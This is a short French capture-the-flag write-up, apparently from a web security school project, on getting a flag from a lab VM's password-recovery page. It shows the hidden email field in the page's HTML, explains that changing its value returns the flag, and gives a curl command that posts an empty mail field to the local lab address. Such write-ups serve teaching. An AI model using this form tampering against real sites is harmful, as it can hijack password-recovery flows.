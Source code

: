 # Exploit 07 - Invalid POST values for recover mail page

Sur la [page de récupération de mot de passe](http://192.168.56.101/index.php?page=recover)
il y a un `input` caché:

```html
<input
    type="hidden"
    name="mail"
    value="webmaster@borntosec.com"
    maxlength="15"
/>
```

il suffit de modifier la `value` de cet `input` et d'envoyer le formulaire pour obtenir le flag.

On peut automatiser la récupération du flag avec la commande:

```bash
curl -s 'http://192.168.56.101/?page=recover#' --data 'mail=&Submit=Submit' | grep -oP 'The flag is : \K[0-9a-f]{64}'
```

